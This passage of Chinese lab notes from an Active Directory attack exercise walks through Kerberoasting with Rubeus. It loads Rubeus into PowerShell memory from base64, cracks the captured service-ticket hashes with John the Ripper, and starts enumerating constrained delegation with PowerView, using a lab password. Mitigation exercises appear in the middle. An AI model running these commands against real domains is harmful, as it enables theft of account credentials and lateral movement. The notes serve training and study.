 ```bash
Invoke-Rubeus -Command "kerberoast /stats"
```
获取目标账户的TGS
```bash
Invoke-Rubeus -Command "kerberoast /user:taskservice /format:hashcat /outfile:krb5tgs.txt"
```
这里的脚本是base64之后通过powershell内存加载<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626701844173-fe804803-1ecc-4504-bbf5-b885dbe5f93b.png#align=left&display=inline&height=532&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1064&originWidth=1520&size=250576&status=done&style=none&width=760)
```bash
function Invoke-Rubeus([string]$Command)
{
$Message="base64";

$Assembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($Message))
[Rubeus.Program]::Main($Command.Split(" "))
}
```
<a name="vZo6D"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626701923308-87e11bd4-95b9-407f-af07-645ff499b626.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=314695&status=done&style=none&width=1024)
破解TGS
```bash
.\john.exe ..\..\krb5tgs.txt --wordlist=..\..\example.dict --rules=passphrase-rule2
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626702071318-bcc5f4cf-5db7-4b96-bda3-84cfb46a4d71.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=215045&status=done&style=none&width=1024)
<a name="J8GwG"></a>
### 课后习题

1. 研究如何最好地减轻 kerberoasting 攻击。描述一下您认为最好的缓解技术，并解释其原因。
1. 还有一个用户会受到ASREP roasting影响，请找出来。
1. 解释一下TGS vs. ASREP roasting



<a name="6CAba"></a>
## Kerberos (Delegation)
之前设置的时候没改json里面的数据，要把domain改了<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626703892023-40aa8d80-eeb9-4ada-828e-5d93f3bc8689.png#align=left&display=inline&height=751&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1502&originWidth=3558&size=436686&status=done&style=none&width=1779)<br />
<br />找到委派用户
```bash
Get-DomainUser -TrustedToAuth
```
查看委派的目标
```bash
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626703925805-15dc0bce-8747-4041-a0bc-fc5ac12537cb.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=200626&status=done&style=none&width=1024)<br />执行这个攻击的条件就是要知道用户的密码才行<br />生成hash
```bash
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:wing.lab /user:service1"
```
<a name="3QG3J"></a>